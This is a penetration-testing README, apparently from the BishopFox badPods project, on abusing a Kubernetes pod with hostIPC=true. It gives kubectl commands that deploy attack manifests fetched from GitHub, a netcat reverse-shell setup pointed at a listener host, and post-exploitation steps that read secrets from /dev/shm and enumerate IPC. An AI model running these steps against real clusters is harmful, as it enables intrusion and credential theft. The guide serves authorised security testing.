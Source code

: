 # Bad Pod #7: hostIPC

If you only have `hostIPC=true`, you most likely can't do much. If any process on the host or any processes within another pod is using the host’s inter-process communication mechanisms (shared memory, semaphore arrays, message queues, etc.), you will be able to read/write to those same mechanisms. The first place you'll want to look is `/dev/shm`, as it is shared between any pod with `hostIPC=true` and the host. You'll also want to check out the other IPC mechanisms with `ipcs`.

* **Inspect /dev/shm** - Look for any files in this shared memory location. 
* **Inspect existing IPC facilities** – You can check to see if any IPC facilities are being used with `/usr/bin/ipcs`. 


## Table of Contents
- [Bad Pod #7: hostIPC](#bad-pod-7-hostipc)
  - [Table of Contents](#table-of-contents)
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [Inspect /dev/shm - Look for any files in this shared memory location.](#inspect-devshm---look-for-any-files-in-this-shared-memory-location)
  - [Look for any use of inter-process communication on the host](#look-for-any-use-of-inter-process-communication-on-the-host)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate Impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl exec -it hostipc-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/[RESOURCE_TYPE]/hostipc-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostipc-exec-[RESOURCE_TYPE]      
kubectl exec -it hostipc-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe priv-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
nc -nvlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostipc/[RESOURCE_TYPE]/hostipc-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete pod hostipc-exec-pod
kubectl delete cronjob hostipc-exec-cronjob
```

# Post exploitation 

## Inspect /dev/shm - Look for any files in this shared memory location.

For a super simple POC, I have created a secret file in /dev/shm on the worker node"
```
root@k8s-worker:/# echo "secretpassword=BishopFox" > /dev/shm/secretpassword.txt
```


From the hostIPC pod, we can list all files in /dev/shm
```
root@hostipc-exec-pod:/# ls -al /dev/shm/
total 4
drwxrwxrwt 3 root root  80 Dec 22 15:11 .
drwxr-xr-x 5 root root 360 Dec 21 20:01 ..
drwx------ 4 root root  80 Sep  9 20:10 multipath
-rw-r--r-- 1 root root  25 Dec 22 15:11 secretpassword.txt
```

Check out any interesting files
```
root@hostipc-exec-pod:/# cat /dev/shm/secretpassword.txt
secretpassword=BishopFox
```

## Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact
If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
* https://docs.docker.com/engine/reference/run/#ipc-settings---ipc
* https://opensource.com/article/20/1/inter-process-communication-linux

